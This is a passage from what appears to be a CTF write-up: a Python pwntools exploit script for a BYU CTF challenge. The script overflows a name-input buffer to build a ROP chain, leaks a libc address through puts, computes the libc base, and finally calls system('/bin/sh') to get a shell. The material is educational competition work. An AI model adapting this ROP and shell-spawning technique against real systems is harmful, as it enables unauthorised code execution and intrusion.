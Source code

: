 ```python
                c
                ''')
        input()


def info(msg): return log.info(msg)
def sla(msg, data): return p.sendlineafter(msg, data)
def sa(msg, data): return p.sendafter(msg, data)
def sl(data): return p.sendline(data)
def s(data): return p.send(data)


if args.REMOTE:
    p = remote('byuctf.xyz', 40015)
else:
    p = process(exe.path)

GDB()

sla(b"store? \n", b"9")
for i in range(4):
    sa(b"name: \n", b"a" * 10)
payload = p64(0x0461616161) + b"aa"
sa(b"name: \n", payload)
sa(b"name: \n", b"\0" * 6 + p32(0x4011e5))

sa(b"name: \n", b"\0" * 4 + p32(0x404000) + b"\0\0")
sa(b"name: \n", b"\0" * 2 + p64(exe.plt['puts']))

sa(b"name: \n", p64(0x4011ea))
p.recvuntil(b"Thank you!\n")
libc_leak = u64(p.recvline(keepends=False) + b"\0\0")
info("leak libc: " + hex(libc_leak))
libc.address = libc_leak - 510432
info("base libc: " + hex(libc.address))

sla(b"store? \n", b"9")
for i in range(4):
    sa(b"name: \n", b"a" * 10)
payload = p64(0x0461616161) + b"\0\0"
sa(b"name: \n", payload)
sa(b"name: \n", b"\0" * 6 + p32(0x4011e5))
binsh = next(libc.search(b'/bin/sh'))
part1 = (binsh & 0xffff)
part2 = binsh >> 16

sa(b"name: \n", b"\0" * 4 + p16(part1) + p32(part2))
sa(b"name: \n", b"\0\0" + p64(0x000000000040101a))
sa(b"name: \n", p64(libc.sym['system']))
p.interactive()
```
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/b356af70-d60b-4109-9498-e9ec25782c60)
